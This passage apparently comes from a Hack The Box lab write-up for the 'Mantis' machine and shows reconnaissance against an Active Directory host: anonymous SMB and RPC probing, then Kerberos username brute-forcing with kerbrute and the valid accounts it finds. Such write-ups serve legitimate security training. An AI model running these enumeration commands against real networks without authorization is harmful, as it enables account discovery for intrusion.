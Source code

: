 

    root@kali# smbmap -H 10.10.10.52
    [+] IP: 10.10.10.52:445 Name: 10.10.10.52                                       

    root@kali# smbclient -N -L //10.10.10.52
    Anonymous login successful

            Sharename       Type      Comment
            ---------       ----      -------
    SMB1 disabled -- no workgroup available



### RPC - TCP 445

I tried connecting with `rpcclient`, and was able to connect, but then
any query I ran returned access denied:



    root@kali# rpcclient -U '' -N 10.10.10.52
    rpcclient $> querydispinfo
    result was NT_STATUS_ACCESS_DENIED
    rpcclient $> enumdomusers
    result was NT_STATUS_ACCESS_DENIED



### Kerberos - TCP 88

With Kerberos open, many active directory attacks are available. With
nothing but the domain name, I can brute for usernames with
[Kerbrute](https://github.com/ropnop/kerbrute):



    root@kali# kerbrute userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.52

        __             __               __     
       / /_____  _____/ /_  _______  __/ /____ 
      / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
     / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: dev (n/a) - 08/30/20 - Ronnie Flathers @ropnop

    2020/08/30 08:36:16 >  Using KDC(s):
    2020/08/30 08:36:16 >   10.10.10.52:88

    2020/08/30 08:36:16 >  [+] VALID USERNAME:       james@htb.local
    2020/08/30 08:36:17 >  [+] VALID USERNAME:       James@htb.local
    2020/08/30 08:36:19 >  [+] VALID USERNAME:       administrator@htb.local
    2020/08/30 08:36:22 >  [+] VALID USERNAME:       mantis@htb.local
    2020/08/30 08:36:26 >  [+] VALID USERNAME:       JAMES@htb.local
    2020/08/30 08:36:36 >  [+] VALID USERNAME:       Administrator@htb.local
    2020/08/30 08:36:45 >  [+] VALID USERNAME:       Mantis@htb.local

